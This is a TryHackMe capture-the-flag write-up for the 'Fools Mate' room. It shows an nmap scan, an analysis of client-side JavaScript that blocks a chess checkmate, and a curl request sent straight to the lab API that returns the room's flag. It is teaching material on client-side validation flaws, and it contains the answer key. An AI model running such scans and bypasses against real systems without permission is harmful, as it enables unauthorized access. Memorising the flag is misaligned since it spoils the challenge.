








# TryHackMe: Fools Mate

**Room:** [Fools Mate](https://tryhackme.com/room/foolsmate)
**Difficulty:** Easy
**Author:** 0xPwner
**Category:** Web Exploitation
**Target IP:** 10.114.185.13

---

## Table of Contents

1. [Room Overview](#room-overview)
2. [Tools Used](#tools-used)
3. [Reconnaissance](#reconnaissance)
4. [Web Enumeration](#web-enumeration)
5. [Source Code Analysis](#source-code-analysis)
6. [API Discovery](#api-discovery)
7. [Exploitation](#exploitation)
8. [Flag](#flag)
9. [Lessons Learned](#lessons-learned)

---

## Room Overview

Fools Mate is a short web challenge that presents a chess puzzle called Endgame Trainer. The board shows a mate in one position and asks the user to play the winning move. The catch is that the application refuses to let the user play the obvious checkmate. The room is designed to teach a core web security lesson: client side validation can never be trusted. If a restriction only exists in the browser, it does not exist at all.

The flag is only released by the backend when the winning move is submitted directly to the API, bypassing the browser's client side guard.

---

## Tools Used

- nmap for port and service enumeration
- Browser Developer Tools (Inspector, Network, Sources) for source and JavaScript analysis
- curl for direct API interaction and exploitation

---

## Reconnaissance

I started with a full TCP port scan against the target, including service detection, default scripts, and OS fingerprinting.

```bash
sudo nmap -sS -sV -sC -O -On scan.txt -p- 10.114.185.13 -vv
```



The scan revealed two open ports:

| Port | State | Service | Version |
|------|-------|---------|---------|
| 22/tcp | open | ssh | OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 |
| 80/tcp | open | http | Node.js Express framework |

The HTTP title returned by the default scripts was `Endgame Trainer`. The presence of Node.js and Express on port 80 confirmed that the web application is the primary attack surface. SSH was noted but not required for this room.

---

## Web Enumeration

I browsed to `http://10.114.185.13` and was presented with the Endgame Trainer chess application.



The board shows a classic back rank mate position. White has a rook on a1, a king on g1, and pawns on f2, g2, and h2. Black has a king on g8 and pawns on f7, g7, and h7. White is to move and the room description hints that checkmate is one move away.

The obvious move is Ra8, delivering checkmate along the back rank because the black king is trapped by its own pawns. However, when I tried to play it, the application displayed a fake Windows 95 style popup that said "I'll shut down your PC if you play that." and refused the move.



This was the first sign that something was wrong. A chess application should not block a legal checkmate move. I decided to inspect the client side code to understand why.

---

## Source Code Analysis

I opened the page source in the browser.



The HTML confirmed the presence of a hidden flag banner element:

```html
<div class="flag-banner" id="flagBanner" hidden></div>
```

This told me the flag is rendered by the application when a specific condition is met, likely a valid checkmate accepted by the backend.

The page loaded two JavaScript files: `js/app.js` and `js/chess.js`. I opened `app.js` to read the application logic.



The critical function is `preMoveCheck`:

```javascript
function preMoveCheck(from, to, promotion) {
  const probe = new Chess(game.fen());
  let result;
  try {
    result = probe.move({ from, to, promotion: promotion || undefined });
  } catch (e) {
    result = null;
  }
  if (result && probe.isCheckmate()) {
    showSystemNotice("I'll shut down your PC if you play that.");
    return false;
  }
  return true;
}
```

This function clones the current board state, simulates the move locally with chess.js, and if the result is a checkmate, it shows the popup and returns `false`. Returning `false` means `doMove` never calls `sendMove`, so the checkmate move is never sent to the backend.

The real flag logic lives in `sendMove`:

```javascript
const res = await fetch('/api/move', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({ from, to, promotion: promotion || undefined })
});
```

And in `finalize`:

```javascript
if (data.flag) showFlag(data.flag);
```

So the backend is the source of truth. It accepts a move, validates it, and returns a `flag` field in the JSON response when the move is a valid checkmate. The client side `preMoveCheck` exists only to block the user from ever reaching that backend response.

This is the entire vulnerability. The restriction is enforced only in the browser.

---

## API Discovery

While reviewing `app.js`, I identified the backend endpoint used by the application.



The application sends moves to:

```
POST /api/move
Content-Type: application/json

{"from": "a1", "to": "a8"}
```

There is also a reset endpoint at `POST /api/reset`. The move endpoint returns a JSON object that includes `ok`, `move`, `fen`, `status`, `turn`, `winner`, and, when the game is won, `flag`.

Since the client side check blocks the browser from sending the winning move, the simplest bypass is to send the request directly to the server using curl.

---

## Exploitation

I sent the winning move directly to the backend, skipping the browser entirely.

```bash
curl -s -X POST "http://10.114.185.13/api/move" \
  -H 'Content-Type: application/json' \
  -d '{"from": "a1","to": "a8"}'
```



The server responded with:

```json
{
  "ok": true,
  "move": "a1a8",
  "fen": "R5k1/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1",
  "status": "checkmate",
  "turn": "b",
  "winner": "white",
  "flag": "THM{cl13nt_s1d3_ch3ckm4t3}"
}
```

The backend accepted Ra8, confirmed checkmate, and returned the flag in the response body. The client side guard was completely irrelevant.

---

## Flag

```
THM{cl13nt_s1d3_ch3ckm4t3}
```



---

## Lessons Learned

This room is a compact demonstration of one of the most common and most damaging mistakes in web development: enforcing security decisions on the client side.

Key takeaways:

1. **Client side validation is for user experience, not security.** The `preMoveCheck` function in this room exists only to stop the browser from sending a request. Any user with a browser console, curl, or Burp Suite can send the same request manually. The server never sees the client side guard and does not care about it.

2. **The server must be the source of truth for game state and win conditions.** In this room the backend correctly validated the move and returned the flag. But it also accepted the move without any authentication or session check. If the server had enforced the same rule the client did, the flag would not have been reachable this way. The real fix is not to trust the browser to decide what is legal.

3. **Hidden DOM elements are not secrets.** The `flagBanner` div was present in the page source with the `hidden` attribute. Hidden HTML is not a security boundary. Anyone viewing the source can see it exists and understand what triggers it.

4. **A simple curl request can defeat an entire client side flow.** Tools like curl, Postman, or Burp Repeater let an attacker talk directly to the API and ignore any JavaScript logic the developer wrote. This is why APIs must validate every request as if it came from an untrusted source, because it did.

5. **Room name is a hint, not a joke.** Fools Mate refers both to the chess opening and to the foolish assumption that the browser can be trusted. The flag itself, `cl13nt_s1d3_ch3ckm4t3`, spells out the lesson directly.

For anyone preparing for a junior penetration testing role or a web security interview, this room is a clean example of how to identify a client side only control, find the underlying API, and bypass the control with a direct request. It is a small challenge but a very real bug class.
